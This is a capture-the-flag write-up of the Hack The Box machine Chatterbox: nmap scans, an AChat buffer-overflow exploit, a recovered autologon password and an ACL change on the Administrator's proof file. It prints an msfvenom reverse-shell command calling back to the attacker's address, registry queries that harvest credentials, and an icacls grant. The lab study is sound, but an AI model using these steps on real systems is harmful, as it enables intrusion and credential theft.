


# Chatterbox

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-windows: Windows</span>
<span class="wu-tags">
<span class="wu-tag">AChat</span>
<span class="wu-tag">Registry credentials</span>
<span class="wu-tag">File ACLs</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Chatterbox ended with a file-permission mistake. Alfred had full control over the Administrator Desktop, which was enough to change access to the proof file. That proves privileged file access, without requiring a claim that the session became SYSTEM.

## Attack path

1. Adapt the recorded AChat overflow payload to the callback address.
2. Recover Alfred's autologon password from the registry.
3. Inspect the Administrator Desktop ACL and grant Alfred access to the proof file.

[HTB machine](https://app.hackthebox.com/machines/123) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/123) (checked November 17, 2026).

## Enumeration

```fish
set -x IP 10.10.10.74

# Initial fast port discovery
set ports (nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports

# Comprehensive TCP Scan
sudo nmap -p$ports -sC -sV -O --script=vuln --script-timeout=30 $IP -oA scan_tcp

# Comprehensive UDP Scan
sudo nmap -sU --top-ports 1000 --min-rate=500 -T4 -sC -sV -oA scan_udp $IP
```

## Nmap Results
```text
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 2 hops
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
```

## Foothold
Notice ports 9255 and 9256 from the nmap results. This service, AChat chat system, doesn't seem to host any reachable web service, however, we can do a quick searchsploit to find some potential exploits:
```text
searchsploit achat
```

The above should bring back some buffer overflow vulnerabilities. Lets download 36025.py and see what's inside.

Notice this exploit provides a commented msfvenom command to output the necessary payload to obtain a shell. Modify it to fit our machine and replace the output in the python file:
```text
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
NOTE: This was incredibly annoying.. the box will only withstand a singular exploit before the service crashes. Once the buffer overflow executes and a reverse shell is obtained, if the shell is lost, you'll need to restart the box.

Open an NC listener to catch the reverse shell to find yourself logged in as `alfred`.  Note that the first user flag can be found on his Desktop.
## Privilege escalation
Reference: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

From the priv esc guide above, we can start by looking for some easy wins. Note that by searching for cleartext passwords in files, this will take a long time to complete so let's start by checking the registry:
```bash
reg query HKLM /f password /t REG_SZ /s
```

Notice the output

<figure class="wu-evidence" markdown>

<figcaption>The registry password search locates the Winlogon configuration.</figcaption>
</figure>

Since we see Winlogon shown in the output above, with a reg for DefaultPassword set to Welcome1!, let's continue on the priv esc guide and check the following:
```bash
# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

<figure class="wu-evidence" markdown>

<figcaption>The Winlogon registry values expose Alfred&#x27;s autologon password.</figcaption>
</figure>

It looks like we've found our first credentials:
`alfred:Welcome1!`

However, SSH isn't opened on this target so we'll need to find another path in.

A reverse SMB tunnel was an unsuccessful detour; it did not contribute to the final file-permission path.

NOTE: The official HTB writeup suggests using PowerUp.ps1 to locate Alfred's credentials, however, when I attempted to run this, or PowerShell in general, the box would not respond.

#### icacls Permissions
Let's CD into the Administrator's Desktop and run the following to view permissions:
```bash
cd c:\Users\Administrator
c:\Users\Administrator> icacls Desktop
icacls Desktop
Desktop NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
        CHATTERBOX\Administrator:(I)(OI)(CI)(F)
        BUILTIN\Administrators:(I)(OI)(CI)(F)
        CHATTERBOX\Alfred:(I)(OI)(CI)(F)
```

Our current user has Full permissions over the Desktop, but not the root.txt file we need to obtain the flag. We can update our privileges below to give ourself permission to view the file and submit the flag:
```bash
icacls root.txt /grant alfred:F
```
This establishes access to the protected proof file through its ACL. The saved notes do not show a SYSTEM shell, so I do not claim one.

## Lessons learned

File ownership, inherited directory rights, and the target file's ACL must be evaluated separately. This attack demonstrated access to the protected proof file; the saved evidence does not establish a SYSTEM session.
